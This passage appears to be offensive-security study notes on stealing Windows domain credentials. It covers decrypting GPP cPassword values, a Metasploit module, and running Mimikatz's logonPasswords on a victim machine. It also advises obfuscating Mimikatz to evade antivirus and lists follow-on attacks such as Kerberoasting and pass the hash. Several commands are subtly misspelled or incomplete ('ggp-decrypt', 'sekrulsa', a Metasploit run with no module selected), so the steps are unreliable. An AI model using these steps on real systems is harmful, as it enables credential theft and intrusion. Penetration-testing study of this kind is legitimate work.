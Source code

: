 These credentials were encrypted and placed in a cPassword. The encryption key was accidentally released.
These credentials are found in GPP XML files stored in the SYSVOL.
## Tools
`ggp-decrypt` tool to decrypt the gpp password
```bash
ggp-decrypt encrypted-text-here
```
If we have credentials we can use metasploit. Use the module `smb_enum_gpp`.
```bash
msfconsole
msf > search smb_enum_gpp
msf > run
```
# Mimikatz
This tool gets picked up by every anti-virus, so it needs to be obfuscated
Used to view and steal credentials, generate kerberos tickets, dump credentials in memory, pass the hash, golden ticket, etc.
Download mimikatz in kali linux `gentilkiwi/mimikatz`
Unzip the folder and transfer the files to the victims machine. We could use a python server or another method for the file transfer.
Open the command prompt as admin and run the executable.
See different privileges
```batch
privilege::
```
Set privilege
```batch
privilege::debug
```
sekrulsa module logonPasswords to get credentials
```batch
sekrulsa::logonPasswords
```
# Post-Compromise Attack Strategy
We have an account, now what?
Search for quick wins: Kerberoasting, secretsdump, pass the hash, pass the password.
No quick wins? Dig deep: enumerate (Bloodhound, etc), Where does your account have access?, Old vulnerabilities die hard.

